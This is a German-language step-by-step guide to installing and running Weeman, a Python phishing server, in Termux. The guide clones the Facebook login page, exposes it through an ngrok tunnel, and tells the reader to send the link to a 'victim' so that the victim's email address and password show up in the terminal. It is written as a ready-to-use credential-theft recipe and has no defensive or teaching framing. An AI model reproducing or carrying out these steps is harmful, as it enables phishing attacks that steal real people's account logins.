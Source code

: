 # Weeman - http server for phishing

# Zuerst "ngrok"

SCHRITT FÜR SCHRITT "WEEMAN" IN TERMUX INSTALLIEREN :-
Teilen Sie Ihre Links über das Internet und schappen Sie sich die Login-daten
 --> installieren NGROK im vorraus

-gehe per Browser auf https://ngrok.com/download und lade die "Linux ARM" Zip

-in Termux nutzen wir jetzt folgende Befehle:

1. > cd /sdcard/download
2. > unzip ngrok.zip
3. > cp ngrok $HOME
4. > cd $HOME
5. > ls
6. > chmod 777 ngrok
7. > ./ngrok
8. > ./ngrok authtoken 844ZM.... [kopiere den Orginal Code der dir angezeigt wird, sobald du dich eingelogt hast]

 zu 8.: dieser schritt ist nicht unbedingt notwendig

# Installieren

TIPPE


 > apt update && apt upgrade

dann TIPPE


 > pkg install git

kopieren den folgenden Link


 > git clone https://github.com/GottModusTermux/G0D

 > ls

 > cd G0D/weeman

 > pkg install python2

 > ls

 > python2 weeman.py
  
# Ausführen

nach dem Start folgende befehle

-Befehl 1 

 > set url yoursite.com

-Befehl 2 

 > set port 8080

-Befehl 3 

 > set action_url yoursite.com
  
-Befehl 4

 > run
  
Nun öffnet ihr einen Browser und sucht
LOCALHOST:8080 oder 127.0.0.1:8080.

# ERÖFFNE EINE FACEBOOK-PHISHING SEITE.

-TIPPE:

 > cd G0D/weeman

 > python2 weeman.py

 > set url https://www.facebook.com/

 > set port 8080

 > set action_url https://www.facebook.com/

 > run

Jetzt können Sie Ihre Facebook-Phishing Seite einfach per Ngrok an Ihr Opfer weiterleiten...

-Neues Termux Fenster öffnen

-gehe zum Ordner wo NGROK vorhanden ist
(hier im ordner G0D.... )
  > cd G0D

  > ./ngrok http 8080

Oben rechts den unteren Link kopieren, und nun verschicken
Beispiel:
"https://denLinkKopieren.ngrok.io -> localhost:8080

sobald das Opfer seine Login-Daten eingegeben hat, 
können Sie seine E-Mail-ID und sein Passwort in dem Termux Fenster "weeman" einsehen
(hochscrollen und "user: " | "pass: "suchen)

sobald "ngrok" beendet wird, ist der erstellte Link nicht mehr erreichbar !! 


HTTP server for phishing in python.
Version 1.7.1 is the last and latest version for weeman.
